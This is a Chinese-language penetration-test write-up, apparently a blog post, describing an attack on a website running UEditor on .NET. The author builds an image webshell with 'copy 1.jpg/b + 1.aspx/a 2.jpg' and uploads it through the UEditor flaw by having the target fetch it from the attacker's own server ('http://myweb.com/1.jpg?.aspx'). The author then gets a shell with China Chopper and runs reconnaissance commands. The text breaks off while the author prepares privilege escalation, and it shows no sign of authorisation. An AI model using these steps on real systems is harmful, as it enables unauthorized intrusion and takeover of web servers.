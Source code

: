 ![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvRNohiaoukOlQQtCmNTTk1wj7iaiaWJ7EUtPmu5CncX8icXoV3KAgtvE1HQ/640?wx_fmt=png)

有点尬  只能手动测试下了， 习惯性的查看一下有没有目录遍历漏洞 （我自己的手法: 找到一张图片 -> 右键复制地址到地址栏 -> 查看相关路径 -> 访问）(注意: 图片一般最好选择文章或者资料里面的 别问，问就是直觉)

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvmULIv29TAdkPtJzn0CGc7Hjr9P3xnEmobhpBPP0t3dYX73RxB73vaQ/640?wx_fmt=png)

哦啊，没发现目录遍历但是发现了 ueditor，联想到之前插件扫到的 web 框架是 .net 的 有篇文章是专门讲解有关

Ueditor .net 下的漏洞的 https://www.freebuf.com/vuls/181814.html

先访问一下路径显示

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvXicvQammzDgXiadEpYoW6yFoiczyRbeHX3rGgliboVCxBicLmab22EUo8vg/640?wx_fmt=png)

利用 poc 上传（自己构造好 html 上传界面，然后上传自己服务器上的图片马用 ? 进行截断就可以了）（服务器：白嫖一年彩虹云云主机 图片马: 非常简单，我们只需要一张图片 1.jpg 一句话木马写好的 aspx 文件 1.aspx

之后我们进入到命令行。注意：将 aspx 文件和图片文件放到同一目录下，cmd 也要跳转到放文件的目录下  
之后执行命令

```
copy 1.jpg/b + 1.aspx/a 2.jpg
```

 新生成的 2.jpg 就是我们制作好的图片马了。【对二次渲染的图片上传点无效】）  

将 POC 中的 url 更换成我们的目标站, 上传格式 http://myweb.com/1.jpg?.aspx

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvRLqSTEu7yRzN6CWFAiblX6W315f85o6PrBs21PibYnicRR3OkPNhmbcvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvyUxXZ60ODl5NVWlfMicBHnBicQ8pCIN1eD1le146CmYLYJiaFzsb2v8RA/640?wx_fmt=png)

上传成功 直接返回一句话地址

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvIVy3KbPDZMJ6YGIxcLKHGO2AD4LQ7Thz3REhJufbtwlBRT1Bqiab2gw/640?wx_fmt=png)

成功解析，上菜刀

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSv9W6ibFaWbBZjz3uicrdrzPlpgqW6q08luib5ZOYvE6x2SINuWD7rXTFuQ/640?wx_fmt=png)

成功 getshell ，查看下权限

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvX6FrV4ZZdFbPWCVH0Htdsm21E6P2RlHiaw7Kx3jibG29A8oqrBX20p3Q/640?wx_fmt=png)

这权限属实有点小，不过还能执行命令  ipconfig 发现是 内网。。。怪不得

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvNYV6WHasl8FjWbFl3RHvOT20pqXOTmKhvYuu0Ros9NkuPxRjAD3x5g/640?wx_fmt=png)

Systeminfo

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvu3xhG87Rvuibw9KwibWnJ2vCkyXeIgWOobUBGnhNFYhjJfoBlnRviaugQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvxwibLBndfj055JNuz0EWUzqZtLzNrHKD9EFqGW11u1mOA0dGW6uZfZw/640?wx_fmt=png)

2012 修补了 8 个补丁 先祭出神站
